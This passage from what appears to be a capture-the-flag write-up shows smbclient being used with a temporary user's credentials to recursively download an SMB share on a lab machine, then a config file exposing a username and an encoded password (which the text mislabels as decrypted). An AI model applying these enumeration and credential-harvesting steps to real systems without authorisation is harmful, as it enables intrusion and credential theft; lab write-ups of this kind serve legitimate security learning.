 We doo have credentails for the temp user here, we can try this credentail to dump the secure and users share, we can’t dump the user or the secure$ share due to insufficient privielges, but we can dump the data share with the creds we got and look for some files.

### Duming data share

```bash
smbclient //10.10.10.178/data -U TempUser  
Password for [WORKGROUP\TempUser]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Aug  7 18:53:46 2019
  ..                                  D        0  Wed Aug  7 18:53:46 2019
  IT                                  D        0  Wed Aug  7 18:58:07 2019
  Production                          D        0  Mon Aug  5 17:53:38 2019
  Reports                             D        0  Mon Aug  5 17:53:44 2019
  Shared                              D        0  Wed Aug  7 15:07:51 2019
prompt 
                5242623 blocks of size 4096. 1839865 blocks available
smb: \> prompt off
smb: \> recurse on
smb: \> mget *
getting file \Shared\Maintenance\Maintenance Alerts.txt of size 48 as Shared/Maintenance/Maintenance Alerts.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
getting file \IT\Configs\Adobe\editing.xml of size 246 as IT/Configs/Adobe/editing.xml (0.2 KiloBytes/sec) (average 0.1 KiloBytes/sec)
getting file \IT\Configs\Adobe\Options.txt of size 0 as IT/Configs/Adobe/Options.txt (0.0 KiloBytes/sec) (average 0.1 KiloBytes/sec)
getting file \IT\Configs\Adobe\projects.xml of size 258 as IT/Configs/Adobe/projects.xml (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
getting file \IT\Configs\Adobe\settings.xml of size 1274 as IT/Configs/Adobe/settings.xml (0.5 KiloBytes/sec) (average 0.2 KiloBytes/sec)
getting file \IT\Configs\Atlas\Temp.XML of size 1369 as IT/Configs/Atlas/Temp.XML (0.6 KiloBytes/sec) (average 0.3 KiloBytes/sec)
getting file \IT\Configs\Microsoft\Options.xml of size 4598 as IT/Configs/Microsoft/Options.xml (1.9 KiloBytes/sec) (average 0.5 KiloBytes/sec)
```

We doo have some interesting config files, out of all config files the ru scanner config.xml seems to be intresting and opening the file we have the user c.smith and a decrypted password for the user.

```bash
 cat RU\ Scanner/RU_config.xml 
<?xml version="1.0"?>
<ConfigFile xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>389</Port>
  <Username>c.smith</Username>
  <Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
</ConfigFile> 
```

